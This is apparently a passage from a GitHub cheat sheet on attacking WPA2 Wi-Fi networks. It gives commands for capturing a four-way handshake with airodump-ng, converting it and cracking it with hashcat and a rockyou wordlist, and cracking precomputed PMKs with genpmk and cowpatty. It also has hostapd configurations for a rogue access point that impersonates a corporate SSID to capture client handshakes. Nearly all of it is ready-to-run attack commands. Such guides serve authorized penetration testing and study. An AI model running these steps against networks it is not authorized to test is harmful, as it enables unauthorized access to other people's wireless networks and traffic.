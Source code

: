 ```
sudo airodump-ng wlan1 -c 11 --bssid 00:1C:10:00:00:00 -w ./capturePSK
```

### Cracking WPA2 handshake
#### Dictionnary attack

Converting **.CAP** capture with handshake to **hccapx** hashcat format
```
sudo apt install git gcc
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src/
gcc cap2hccapx.c -o cap2hccapx.bin
./cap2hccapx.bin wpa_handshake.cap handshake.hccapx
```

Dictionnary attack using hashcat
```
hashcat.exe -m 22000 handshake.hccapx wordlists/rockyou.txt
```

#### Pre Computed PMK
Pre computed PMK (Because PBKDF2 function is time consuming to proceed). You will still need to capture 4 Way handshake for SNonce, ANonce, AP MAC and Client MAC.
  - Require SSID and Passphrase (dictionnary)

```
genpmk -f wordlistPassphrase.txt -s CorpoWifi -d precomputed_PMK
cowpatty -d precomputed_PMK -s CorpoWifi -f wordlistPassphrase.txt
```

<img src="./images/pre_computed.png" width="500"/>


### WPA2 App Less Attack
You will need to have a probing client within the vicinity or range, create a fake access point, wait the client for connect and capture the 4-way handshake.

```
hostapd wpa-psk.conf
```

wpa1-psk.conf
```
interface=wlan1
driver=nl80211
ssid=CorpoWifi
bssid=00:1C:10:00:00:00
wpa=2
wpa_passphrase=wedontcare
wpa_key_mgmt=WPA-PSK
rsn_pairwise=TKIP
channel=1
```

wpa2-psk.conf
```
interface=wlan1
driver=nl80211
ssid=CorpoWifi
bssid=00:1C:10:00:00:00
wpa=2
wpa_passphrase=wedontcare
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```
